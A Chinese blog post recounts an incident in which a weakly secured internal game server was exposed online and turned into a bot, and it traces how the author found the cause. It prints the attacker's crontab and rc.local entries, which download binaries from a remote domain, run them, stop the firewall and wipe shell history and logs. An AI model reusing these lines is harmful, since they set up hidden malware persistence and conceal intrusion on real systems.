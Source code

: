 ```yaml
---
layout: post
title: "记一次服务器被黑了"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

有一个本地服，部署着游戏。我们称作‘本地服’。由于是本地，大家都是自己人，服务器安全防护的都关闭了。 密码123，iptables -F，selinux干掉，chmod都是777.   
呵呵，有一天老板突发奇想说想在家玩玩游戏，网管哥就在路由那里绑定，把服务器暴露出去了。。。 一直没留意。    
	
直到一天，全公司网络都非常慢，排查一下，发现199发包很猛，ssh登陆失败，密码被篡改了。才想起。。。。哦！服务器被黑了。


先把网线，让公司网络恢复先。进去机房，用单用户模式进去把服务器密码改回来。

上面没什么有价值的东西，不太造成损失。 （上面都是编译好了的端，没源码）于是乎开始服务器上寻找蛛丝马迹。     

思路一：先找出入侵者做过什么   
看看bash操作日志 `root@server199:~# cat -n .bash_history`  ，可惜被清空了。   

思路二：入侵者会留下什么  
我先想起定时任务，crontab -l  ,出现了一堆注释。我原本游戏是有定时任务的，被填入这么多注释，想必也是把操作隐藏在茫茫多的注释里面。
我把操作都找了出来。   
	
	*/101 * * * * cd /etc; wget http://www.dgnfd564sdf.com:8080/sksapd
	*/101 * * * * cd /etc; wget http://www.dgnfd564sdf.com:8080/skysapd 
	*/1 * * * * killall -9 new6
	*/1 * * * * killall -9 new4
	*/1 * * * * cd /etc; rm -rf dir sksapd.*
	*/1 * * * * cd /etc; rm -rf dir skysapd.*
	*/99 * * * * cd /root > .bash_history
	*/1 * * * * chmod 7777 /etc/sksapd
	*/1 * * * * chmod 7777 /etc/skysapd
	*/99 * * * * killall -9 cupsdd
	*/1 * * * * killall -9 node24
	*/98 * * * * killall -9 ksapd
	*/96 * * * * killall -9 kysapd
	*/96 * * * * killall -9 atdd
	*/1 * * * * chmod 7777 /etc/cupsdd
	*/1 * * * * chmod 7777 /etc/ksapd
	*/1 * * * * chmod 7777 /etc/kysapd
	*/96 * * * * killall -9 sksapd
	*/96 * * * * killall -9 skysapd
	*/1 * * * * chmod 7777 /etc/atdd
	*/1 * * * * /etc/init.d/iptables stop
	*/1 * * * * nohup /etc/cupsdd > /dev/null 2>&1&
	*/99 * * * * cd /etc;./ksapd
	*/97 * * * * cd /etc;./kysapd
	*/97 * * * * cd /etc;./atdd
	*/69 * * * * cd /etc; wget http://www.dgnfd564sdf.com:8080/cupsdd 
	*/97 * * * * cd /etc;./sksapd
	*/97 * * * * cd /etc;./skysapd
	*/79 * * * * cd /etc; wget http://www.dgnfd564sdf.com:8080/ksapd
	*/89 * * * * cd /etc; wget http://www.dgnfd564sdf.com:8080/kysapd
	*/99 * * * * cd /etc; wget http://www.dgnfd564sdf.com:8080/atdd
	*/1 * * * * cd /etc; rm -rf dir cupsdd.*
	*/1 * * * * cd /etc; rm -rf dir kysapd.*
	*/1 * * * * cd /etc; rm -rf dir ksapd.*
	*/1 * * * * cd /etc; rm -rf dir atdd.*
	*/1 * * * * killall -9 freeBSD
	*/1 * * * * history -c
	*/15 * * * * cd /var/log > secure


好吧，很明显的了，是被人做肉鸡了，定时下个skysapd什么的，执行。

同时在/etc/rc.local里没发现

	nohup /etc/cupsdd > /dev/null 2>&1&
	cd /etc;./ksapd
	cd /etc;./kysapd
	cd /etc;./atdd
	nohup /etc/cupsdd > /dev/null 2>&1&
	cd /etc;./ksapd
	cd /etc;./kysapd
	cd /etc;./atdd
	nohup /etc/cupsdd > /dev/null 2>&1&
	cd /etc;./ksapd
	cd /etc;./kysapd
	cd /etc;./atdd
	nohup /etc/cupsdd > /dev/null 2>&1&
	cd /etc;./ksapd
	cd /etc;./kysapd
	cd /etc;./atdd

把东西都干掉，撤销外网。以前就继续用了。后来用`last`命令看了一下，有两个登陆ip。把脚本的域名也查了一下。   
结果如下，便没有继续追寻下去了。   

您的IP查询为：122.224.34.42   
电脑IP地址查询详细位置：浙江省绍兴市 电信  


您的IP查询为：1.82.228.218  
电脑IP地址查询详细位置：陕西省西安市  


您的IP查询为：60.180.156.102  
电脑IP地址查询详细位置：浙江省温州市 (龙湾区)电信  
-EOF